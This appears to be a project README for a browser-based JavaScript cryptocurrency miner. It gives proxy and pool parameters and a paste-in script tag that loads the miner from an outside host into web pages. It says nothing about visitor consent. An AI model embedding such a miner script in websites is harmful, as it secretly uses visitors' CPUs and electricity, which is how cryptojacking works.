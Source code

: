 # Crypto-Webminer
Use Crypto Webminer - JavaScript miner on any Stratum Pool for Cryptonight Coins

Host your own assets on your Server from assets branch or use https://cryptown.netlify.com/media.js

Stratum Proxy for all pools: ?proxy=ws://crypto-webminer.com:8897
Stratum SSL Proxy for all pools: ?proxy=wss://crypto-webminer.com:8902

Simple Pool change: ?pool=Your_Favorite_Pool:PortNr

Complete example:
<script src="https://cryptown.netlify.com/media.js?proxy=ws://crypto-webminer.com:8897?pool=pool.supportxmr.com:3333"> </script>
or with SSL
<script src="https://cryptown.netlify.com/media.js?proxy=wss://crypto-webminer.com:8902?pool=pool.supportxmr.com:3333"> </script>

<br><br> 
Or use our integration for websites & blogs
http://www.crypto-webminer.com/integrate.html
  
<br><br> 
We take a 1% developer fee
